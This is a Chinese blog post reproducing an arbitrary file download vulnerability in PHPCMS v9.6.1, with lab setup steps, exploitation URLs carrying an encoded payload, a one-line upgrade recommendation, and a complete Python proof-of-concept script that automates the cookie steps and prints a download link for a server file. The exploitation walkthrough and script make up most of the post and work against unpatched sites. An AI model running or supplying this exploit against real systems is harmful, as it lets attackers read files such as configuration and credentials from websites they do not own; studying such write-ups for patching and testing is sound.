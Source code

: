 ```yaml
---
title: PHPCMSv9.6.1任意文件下载漏洞复现
date: 2019-02-25 20:32:30
tags:
	- PHPCMSv9  
	- 任意文件下载 
	- PHP
categories: 漏洞复现
---
```


## 0x00 环境介绍

- 系统：Windows 10
- Phpstudy 2018
- CMS：PHPCMS v9.6.1
  - PHPCMS v9各版本下载地址：`http://download.phpcms.cn/v9/9.6/`

<!-- more -->

## 0x01 安装PHPCMS v9

首先下载PHPCMS v9.6.1并解压，将解压得到的install_package目录拷贝到网站根目录下。

启动phpstudy，访问`http://localhost/install_package/install/install.php`进入安装界面。

依次点击下一步进行安装即可，数据库密码phpstudy默认是root/root。

## 0x02 漏洞利用

**1.获取Cookie：xxx_siteid**

首先访问`http://localhost/install_package/index.php?m=wap&c=index&a=init&siteid=1`并获取Cookie。

![](phpcms9-6-1\siteid.png)

**2.获取Cookie：xxx_att_json**

访问`http://localhost/install_package/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D1%26catid%3D1%26s%3D./phpcms/modules/content/down.ph%26f%3Dp%3%25252%2*70C`，并将上一步获取的siteid的Cookie值作为POST字段userid_flash的值一同提交，然后从响应消息中找到xxx_att_json的Cookie值。

![](phpcms9-6-1\att_json.png)

要点：

> - `src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D1%26catid%3D1%26s%3D./phpcms/modules/content/down.ph%26f%3Dp%3%25252%2*70C`是payload，是我们要下载的文件。此处我们使用的payload实现要下载的文件是`/phpcms/modules/content/down.php`。

**3.获取下载链接**

访问`http://localhost/install_package/index.php?m=content&c=down&a=init&a_k=`，并将上一步得到的xxx_att_json的值作为a_k参数的值。

> `http://localhost/install_package/index.php?m=content&c=down&a=init&a_k=61e9vtz6uMRQ6iACSVg06WBUXXslD430-hA7DDHM_5cMyGqOkQDeAPBXQURI2hDzEa-inCgLSjD2Ru66mQASlP3Qd06DqBJfeSuqMlZHaTOYO_VdhkWCDz8TD8SEQ3qoqho4ILiuVMSp7f_j05YY57YruJ1uIdHMbqaTyfClLBPv95lNtaRHQszhD9GZ0QEh8g`

访问过后，会返回一个带有下载按钮的页面，点击下载按钮即可下载。

![](phpcms9-6-1\download.png)

## 0x03 遇到的问题

得到下载连接访问页面，点击下载会报参数错误。

解决办法：

> - `https://blog.csdn.net/vindraz/article/details/12579211`
> - `http://www.cmsyou.com/support/172.html`

## 0x04 修复建议

升级PHPCMS版本到9.6.2或以上。

## 0x05 PoC

- Github：`https://github.com/sh4douu/PoC-and-Exp/blob/master/phpcmsv961.py`
- 代码：

```
import requests
import re
import sys

headers = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64)"}

def get_cookie1(host):
    url_1 = host + "/index.php?m=wap&c=index&a=init&siteid=1"
    print("[*] 请稍等...正在获取Cookie:")
    reponse = requests.get(url_1,headers=headers)

    
    try:
        pattern = r".*siteid"  #phpcmsv9 siteid字段格式为：xxxx_siteid,使用该正则匹配
        for item in reponse.cookies.keys():
            res = re.findall(pattern,item)

            if res:
                cookie1 = reponse.cookies.get(res[0])
                print("[+] 获取到Cookie1:")
                print("[+] " + res[0] + ":" + cookie1)
                return cookie1

    except:
        print("[-] 获取Cookie1失败!")

def get_cookie2(host,cookie1):
    #该payload实现下载phpcms/modules/content/down.php文件 
    payload = "src=%26i%3D1%26m%3D1%26d%3D1%26modelid%3D2%26catid%3D6%26s%3Dphpcms%2fmodules%2fcontent%2fdown.ph%26f=p%3%252%2*77C"
    
    #payload = "src%3Dpad%3Dx%26i%3D1%26modelid%3D1%26catid%3D1%26d%3D1%26m%3D1%26f%3D%2Ep%25253chp%26s%3Dindex%26pade%3D"
    #payload = "src%3Dpad%3Dx%26i%3D1%26modelid%3D1%26catid%3D1%26d%3D1%26m%3D1%26s%3Dindex%26f%3D%2Ep%25253chp%26pade%3D"

    url_2 = host + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&" + payload
        
    data = {"userid_flash":cookie1}  #将第一次得到的cookie作为"userid_flash"的值，并以POST方式提交
    reponse = requests.post(url_2,data=data,headers=headers)

    try:
        pattern = r".*att_json" #phpcmsv9 att_json字段格式为：xxxx_att_json,使用该正则匹配
        for item in reponse.cookies.keys():
            res = re.findall(pattern,item)
            if res:
                cookie2 = reponse.cookies.get(res[0])
                print("[+] 获取到Cookie2:")
                print("[+] " + res[0] + ":" + cookie2)
                return cookie2

    except:
        print("[-] 获取Cookie2失败!")

def help():
    print("-------------------------------------------------------------------------")
    print(" [*] 使用说明：给出index.php之前的部分")
    print("       Usage: python3 phpcmsv9.py http://host:port")
    print("     Example：python3 phpcmsv9.py http://localhost/phpcms")
    print("-------------------------------------------------------------------------")


if __name__ == "__main__":
    if len(sys.argv) != 2:
        help()
        sys.exit(0)

    host = sys.argv[1].strip()
    cookie1 = get_cookie1(host)
    cookie2 = get_cookie2(host,cookie1)

    if cookie2:
        print("[+] Open link to download file: ")
        print("[+] " + host + "/index.php?m=content&c=down&a=init&a_k=" + cookie2) #最终文件下载连接
```

